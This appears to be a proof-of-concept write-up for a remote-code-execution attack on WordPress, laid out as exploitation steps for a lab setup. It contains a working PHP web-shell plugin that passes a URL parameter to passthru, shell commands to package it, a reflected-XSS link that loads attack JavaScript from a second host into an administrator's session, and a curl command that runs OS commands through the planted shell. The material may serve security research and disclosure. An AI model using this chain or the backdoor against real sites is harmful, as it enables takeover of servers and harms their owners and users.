

# [RCE] Install Plugin

## Test Environment

### Web Browsers (20240224)

* [x] Mozilla Firefox Version 123.0 (64-bit)
* [x] Google Chrome Version 122.0.6261.70 (64-bit)
* [x] Microsoft Edge Version 122.0.2365.52 (64-bit)

## Exploitation Steps

1. [create WordPress plugin containing PHP payload] backdoor source code (`WP_PoC.php`)

```
<?php
/**
 * Plugin Name: WP RCE PoC - Install Plugin
 * Version: 1.0.0
 * Author: WP Admin
 * Author URI: https://localhost
 * License: GPL2
 */
if (md5($_GET['pass']) === '098f6bcd4621d373cade4e832627b4f6') { echo passthru($_GET['cmd']); }
?>
```

2. [create WordPress plugin containing PHP payload] create WordPress plugin

```
zip WP_PoC.zip WP_PoC.php
```

3. [create WordPress plugin containing PHP payload] base64-encode generated plugin file (**NOTE**: avoids encoding issues)

```
cat WP_PoC.zip | base64 -w0 > WP_PoC.txt
```

4. victim user (with administrative privileges) logs in

http://192.168.5.10/wp-login.php

5. victim user clicks link

```
http://192.168.5.10/test/rxss.php?q=<script src=http://192.168.5.13/installPluginWP.js></script>
```

6. execute OS command

```
curl -s "http://192.168.5.10/wp-content/plugins/WP_PoC/WP_PoC.php?pass=test&cmd=id" | head -n 1
```

7. [optional] uninstall plugin

*WordPress -> Plugins -> Installed Plugins -> [WP RCE PoC - Install Plugin] Delete -> OK*

## Screenshots


